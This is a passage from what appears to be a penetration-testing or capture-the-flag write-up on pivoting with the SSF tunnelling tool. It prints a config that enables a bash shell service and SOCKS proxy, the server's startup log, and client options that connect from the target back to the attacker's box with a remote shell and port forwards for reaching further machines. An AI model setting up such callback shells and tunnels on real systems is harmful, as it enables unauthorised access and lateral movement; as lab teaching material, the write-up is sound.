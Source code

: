 

    {
      "ssf": {
        "services": {
          "datagram_forwarder": { "enable": true },
          "datagram_listener": { "enable": true, "gateway_ports": false },
          "stream_forwarder": { "enable": true }, "stream_listener": { "enable": true, "gateway_ports": false },
          "copy": { "enable": false },
          "shell": { "enable": true, "path": "/bin/bash", "args": "" },
          "socks": { "enable": true }
        }
      }
    }



The whole directory needs to be uploaded to target machine.

### Server

On my Kali machine I'll start the SSF daemon:



    $ ./ssfd
    [2019-01-23T21:05:23+01:00] [info] [config] [tls] CA cert path: <file: ./certs/trusted/ca.crt>
    [2019-01-23T21:05:23+01:00] [info] [config] [tls] cert path: <file: ./certs/certificate.crt>
    [2019-01-23T21:05:23+01:00] [info] [config] [tls] key path: <file: ./certs/private.key>
    [2019-01-23T21:05:23+01:00] [info] [config] [tls] key password: <>
    [2019-01-23T21:05:23+01:00] [info] [config] [tls] dh path: <file: ./certs/dh4096.pem>
    [2019-01-23T21:05:23+01:00] [info] [config] [tls] cipher suite: <DHE-RSA-AES256-GCM-SHA384>
    [2019-01-23T21:05:23+01:00] [info] [config] [http proxy] <None>
    [2019-01-23T21:05:23+01:00] [info] [config] [socks proxy] <None>
    [2019-01-23T21:05:23+01:00] [info] [config] [circuit] <None>
    [2019-01-23T21:05:23+01:00] [info] [ssfd] listening on <*:8011>
    [2019-01-23T21:05:23+01:00] [info] [ssfd] running (Ctrl + C to stop)



Now the server is running on port 8011, which is the default port. I can
change the port with the `-p [port]` option.

### Client

On target host I will start the client, telling it to connect back to my
box. I'll use the following options:

-   `-g` - allow gateway ports. This allows client to bind local sockets
    to address besides localhost.
-   `-F 1080` - This runs a socks proxy on the server on port 1080.
-   `-Y 1111` - This opens local port 1111 as a shell on the client.
-   `-L 172.19.0.4:2222:10.10.14.3:2222` and
    `-L 172.19.0.4:3333:10.10.14.3:3333` - These will open listeners on
    the target machine that will forwards back to my attacker box. This
    will come in handy when I want to exploit further machines that
    can't talk to my attacker box directly.
